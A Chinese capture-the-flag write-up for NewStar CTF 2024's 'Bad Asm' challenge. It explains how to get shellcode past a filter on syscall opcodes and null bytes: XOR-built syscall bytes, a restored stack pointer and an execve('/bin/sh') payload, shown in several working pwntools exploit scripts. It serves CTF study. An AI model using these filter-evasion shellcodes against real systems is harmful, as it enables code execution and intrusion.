 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Bad Asm

程序过滤 `syscall` / `sysenter` / `int 0x80` 的汇编指令的机器码。

`strcpy` 限制了 shellcode 的机器码中不能出现 `0x00`.

开启的可执行的段具有写的权限，用异或搓出来 syscall 的机器码之后用 `mov` 写入到 shellcode 后面，中间用 `nop` 连接一下就行了。

由于程序清空了 `rsp` `rbp` 寄存器，我们需要恢复一下 `rsp` 的值，任意一个可读写的段即可，否则 `push` 操作会寄掉。

可以用异或先把 syscall 的机器码插入到当前 shellcode 的后面来执行 `read` 的 syscall，利用 `read` 在旧的 shellcode 后面插入 `execve("/bin/sh", 0, 0)` 的 shellcode，第二次输入的 payload 中 `0x42` 个 `a` 的作用是覆盖掉旧的 shellcode，毕竟执行过了也没用了。

恢复 `rsp` 的作用是为了能够正常执行 `push` `pop` 指令，这里 `push` `pop` 指令位于 `shellcraft.sh()` 生成的 shellcode 中 。否则其生成的 shellcode 无法正常执行。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 使用 syscall 执行 read(0, code, 0x3fff)
mov rsp, rdi
mov rax, rdi
add sp, 0x0848 ; // 从开头到这里的作用是给 rsp 一个合法值，使 push/pop 指令能够正常执行。同时设置 rax 的值方便后面往当前 shellcode 末尾拼接上 syscall 指令的机器码。

mov rsi,rdi
mov dx, 0x3fff ; // 这两行作用是设置 rsi rdx 寄存器

mov cx, 0x454f
xor cx, 0x4040 ; // 这两行作用是用异或搓出来 0f 05 (syscall 的机器码)
add al, 0x40
mov [rax], cx  ; // rax原本指向的是当前段的开始位置，加上一个偏移，在之后指向的地方写入 0f 05，即 syscall，相当于拼接到当前 shellcode 后面。

xor rdi, rdi
xor rax, rax   ; // 设置 read 的系统调用号 0，设置 rdi 寄存器
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90')) # \x90是nop指令的机器码，用于连接上面的shellcode和写入的syscall，使程序能正常执行。

pause()
p.send(b'a'*0x42+asm(shellcraft.sh())) # 0x42个a正好覆盖了syscall，之后拼接新的shellcode会继续执行本次写入的新的shellcode
p.interactive()
```

除了异或的方法，我们可以用另一种方法布置 syscall 的机器码。

题目检查 syscall 的时候采用的方法是检测相邻两个字节，所以我们可以将两个字节分别用一个汇编指令写入到内存中，比如用 `mov`，这样我们就可以将其机器码 `0xf 0x5` 拆开，而不是连续的字节，这样也可以通过检查。

```python
mov byte ptr [r8 + 0x17], 0xf
mov byte ptr [r8 + 0x18], 0x5
```

最后保证控制执行流执行到写入的 `0f05` 那里就行了。

下面的 EXP 中直接异或搓了一个 `execve("/bin/sh", 0, 0)`，这样也是可以的。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop，任意一个可读写段即可，我们这里刚好有rdi中存储的 shellcode 的段的起始位置，正好这个段有读写权限，就直接拿来在 0x848 偏移的位置当作栈顶了（加偏移是为了防止某些操作破坏写入的 shellcode）
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; // 异或搓出来'/bin/sh\x00'(正好 8 字节，一个寄存器能存下) 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov ax, 0x454f
xor ax, 0x4040
mov rsi, rdi
add sil, 0x40
mov [rsi], ax  ; // 搓出来 syscall 的机器码 0f 05 并且拼接到当前 shellcode 后面。

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90'))
p.interactive()
```

除此之外，由于我们把栈放在可执行段上面了，我们可以直接异或整出来 syscall 的机器码然后 push 到栈上面，最后 `jmp rsp` 即可。由于这种方法我们并不依赖 `nop` 指令进行连接，在送 Payload 的时候可以去掉 `ljust` 了。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; // 异或搓出来 '/bin/sh\x00' 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov rdi, rsp   ; // 设置 rdi，指向之前push到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; //设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''

p.sendafter("Input your Code :", asm(shellcode))

p.interactive()
```

在把 `/bin/sh\x00` push 到栈上面的时候，我们为了清除最后的 `0x00`，采用了异或的方法。除了这种方法外我们可以调整一下这个字符串，比如我们可以改为使用 `/bin///sh`，`shellcraft.sh()` 生成的 shellcode 采用的就是这种方法。

按照这种方法更改的 shellcode，也是可以拿到 shell 的。

```python
shellcode='''
; // 目标: 执行 execve("/bin///sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给rsp一个合法值，使程序能正常执行push/pop

push 0x68
mov rax, 0x732f2f2f6e69622f
push rax       ; // 将 '/bin///sh' push 到栈上面，最后一个字符 h 是第 6 行 push 的，高位默认填充为 0，此时就不用异或了

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''
```
